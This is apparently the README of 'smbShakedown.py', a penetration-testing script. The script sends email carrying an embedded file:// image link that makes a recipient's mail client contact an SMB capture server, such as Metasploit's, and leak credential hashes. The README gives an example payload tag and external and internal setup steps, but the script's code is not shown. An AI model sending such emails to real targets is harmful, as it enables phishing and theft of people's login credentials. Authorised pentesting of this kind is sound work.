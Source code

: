 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0
#Installation
    git clone https://github.com/NickSanzotta/smbShakedown.git
    cd smbShakedown/
    python smbShakedown.py

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server:
    
    1.Configure SMTP Relay server address:
    
    2.Enter SMTP Relay server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email: 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    *Verify this is the external IP address*
    
    5.SMBCapture Server does not have to be hosted locally:
    EX: Use a VPS

#Internal Pentest
    1.Configure SMTP Server, smarthost/localhost/other:
    (Looking into intergrating smtpd for local SMTP server option)
    
    2.Enter SMTP Server credentials: 
    (anonymous connections not yet supported.)
    
    3.Configure "from" and "to" addresses:
    
    4.Enter SMBCapture Server IP address, so it can be placed in body of email:
    EX: <img src=file://127.0.0.1/image/foo.gif>
    
    5.SMBCapture Server can be hosted locally:
    EX: Metasploit's SMB Capture server can be configured to automatically launch.

#To do:
    SMTP Anonymous Auth option
    Add smtplib error handling
    Multiple recipient address support.
    SMTP local server option
    Create forked version.

